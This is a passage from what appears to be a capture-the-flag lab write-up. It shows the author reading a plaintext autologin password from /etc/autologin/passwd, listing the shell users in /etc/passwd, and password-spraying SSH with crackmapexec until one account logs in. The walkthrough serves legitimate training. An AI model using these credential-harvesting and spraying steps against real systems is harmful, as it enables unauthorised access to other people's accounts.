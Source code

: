       /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
    

It checks in two paths for a `passwd` file, and if either is there, it breaks,
and then runs `inject-keys.py -s $passwd -k enter`. `inject-keys.py` looks to
be [this script](https://git.furworks.de/coreboot-mirror/chrome-
ec/src/commit/a029c7a27f3bd1a1066db9c167c6166688fe4ef3/util/inject-keys.py)
from the Chrome-ec repo, and it does what it says. Of the two paths, the first
doesn’t exist, but the second does:

    
    
    nginx@spectra /opt $ ls /mnt/stateful_partition/etc/autologin
    ls: cannot access '/mnt/stateful_partition/etc/autologin': No such file or directory
    nginx@spectra /opt $ ls /etc/autologin/
    passwd
    

It contains what looks like a password:

    
    
    nginx@spectra /opt $ cat /etc/autologin/passwd 
    SummerHereWeCome!!
    

### ssh

#### Identify User

There are four users in `/etc/passwd` that don’t have a shell of `/bin/false`:

    
    
    nginx@spectra /opt $ cat /etc/passwd | grep -v false
    root:x:0:0:root:/root:/bin/bash
    chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
    nginx:x:20155:20156::/home/nginx:/bin/bash
    katie:x:20156:20157::/home/katie:/bin/bash
    

I’ll create a file with those users and run `crackmapexec` to check for SSH
with that password:

    
    
    oxdf@parrot$ crackmapexec ssh 10.10.10.229 -u users -p 'SummerHereWeCome!!' --continue-on-success
    SSH         10.10.10.229    22     10.10.10.229     [*] SSH-2.0-OpenSSH_8.1
    SSH         10.10.10.229    22     10.10.10.229     [-] chronos:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
    SSH         10.10.10.229    22     10.10.10.229     [+] katie:SummerHereWeCome!! 
    SSH         10.10.10.229    22     10.10.10.229     [-] nginx:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
    SSH         10.10.10.229    22     10.10.10.229     [-] root:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
    

It worked for katie!

#### Shell

